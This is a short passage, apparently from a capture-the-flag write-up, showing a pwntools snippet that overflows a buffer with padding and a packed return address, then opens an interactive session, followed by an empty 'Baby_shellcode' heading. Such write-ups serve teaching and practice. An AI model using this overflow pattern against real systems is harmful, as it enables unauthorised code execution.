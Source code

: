 ```python

payload = b'A' * offset
payload += p64(ret_addr)

io.sendline(payload)

io.interactive()

```



<figure><img src="../../.gitbook/assets/image (63).png" alt=""><figcaption><p>ikzzz</p></figcaption></figure>

***

## Baby\_shellcode



<figure><img src="../../.gitbook/assets/image (64).png" alt=""><figcaption></figcaption></figure>
